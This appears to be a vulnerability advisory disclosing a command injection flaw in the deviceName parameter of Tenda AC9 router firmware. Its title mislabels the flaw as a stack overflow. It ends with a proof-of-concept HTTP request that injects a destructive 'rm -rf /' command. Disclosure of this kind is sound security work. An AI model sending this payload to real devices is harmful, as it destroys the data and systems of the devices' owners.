

# Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the deviceName parameter of route /goform/setUsbUnload has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
The v2 returned by the sub_2B9FC function is passed to doSystemCmd as an argument, where v2 is the deviceName obtained from the request. doSystemCmd executes the command "cfm post netctrl 51? op=3,string_info=v2", where v2 is the deviceName obtained from the request, that is, the data provided by the user, and v2 is the deviceName passed in from the outside. If the deviceName is not strictly verified, an attacker can use it to insert malicious commands.
deviceName=";  When rm -rf /", the generated command becomes: "cfm post netctrl 51? op=3,string_info=;  rm -rf /", which causes the rm -rf/command to be executed, causing serious system damage.



## Poc
```py
POST /goform/setUsbUnload HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

deviceName="; rm -rf /
```
